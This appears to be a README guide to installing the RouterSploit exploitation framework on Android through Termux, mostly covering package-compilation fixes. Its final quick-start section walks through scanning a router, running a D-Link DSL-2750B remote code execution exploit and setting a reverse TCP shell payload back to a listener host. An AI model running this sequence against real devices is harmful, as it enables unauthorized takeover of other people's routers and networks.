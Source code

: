 ### Setup RouterSploit on Android 


<img src="https://github.com/desword/shellcode_tools/blob/master/img/android_sploit.jpg" width = 50% height = 50% div align=center />

* RouterSploit
	* RouterSploit is a Exploitation Framework for Embedded Devices
	* https://github.com/threat9/routersploit

* download termux
    * https://cn.apksum.com/down/com.termux_0.65_free
    * install python on termux
        * https://wiki.termux.com/wiki/Python
	* The default python of termux is python3, therefore it should work for routersploit.
	
* Basic install command
	* git clone https://www.github.com/threat9/routersploit
	* cd routersploit
	* pip install -r requirements.txt
* Errors when isntall routersploit on termux
    * errors of compiling cffi
		* [ref] https://github.com/termux/termux-packages/issues/1964
			* pkg install clang
		* if file "ffi.h" can not find,then 
			* apt search ffi 
			* apt install libffi libffi-dev
		* Then the cffi should be installed successfully.
	* errors of ,Issue installing cryptography (due to openssl built with no-engine) all about the openssl
		* [ref] https://github.com/termux/termux-packages/issues/2847
		* install the following old version of openssl, and it should work.
			* OpenSSL without no-engine config for AArch64: (in my test on HUAWEI MATE 8, the following packages should work)
				* openssl_1.1.1-2_aarch64.deb.gz
				* openssl-dev_1.1.1-2_aarch64.deb.gz
				* openssl-tool_1.1.1-2_aarch64.deb.gz
			* OpenSSL without no-engine config for arm:
				* openssl_1.1.1-2_arm.deb.gz
				* openssl-dev_1.1.1-2_arm.deb.gz
				* openssl-tool_1.1.1-2_arm.deb.gz
			* download 
				* using wget to download the above packages.
			* [CMD]
				* gunzip openssl_1.1.1-2_arm.deb.gz
				* gunzip openssl-dev_1.1.1-2_arm.deb.gz
				* gunzip openssl-tool_1.1.1-2_arm.deb.gz
				* dpkg -i openssl_1.1.1-2_arm.deb
				* dpkg -i openssl-dev_1.1.1-2_arm.deb
				* dpkg -i openssl-tool_1.1.1-2_arm.deb
	* Quick keyboards
		* using tab (volum +, and t)
		* show all keyboards (volum +, and q)
		* cursor left/right (volum +, and a/d) 
		* previous/latter commands (volum +, and w/s)
* quick start for RouterSploit
	* python rsf.py
	* use scanner/autopwn
	* set target 192.168.1.1
	* rsf (AutoPwn) > use exploits/routers/dlink/dsl_2750b_rce                                                        
	* rsf (D-Link DSL-2750B RCE) > set target 192.168.1.1                                                             
	* [+] target => 192.168.1.1                                                                                       
	* rsf (D-Link DSL-2750B RCE) > check                                                                              
	* [+] Target is vulnerable                                                                                        
	* rsf (D-Link DSL-2750B RCE) > run
	* cmd > show payloads
	* cmd > set payload reverse_tcp                                                                                   
	* cmd (MIPSBE Reverse TCP) > show options 
	* cmd (MIPSBE Reverse TCP) > set lhost 192.168.1.10
	* cmd (MIPSBE Reverse TCP) > run
	
		
			
			
			
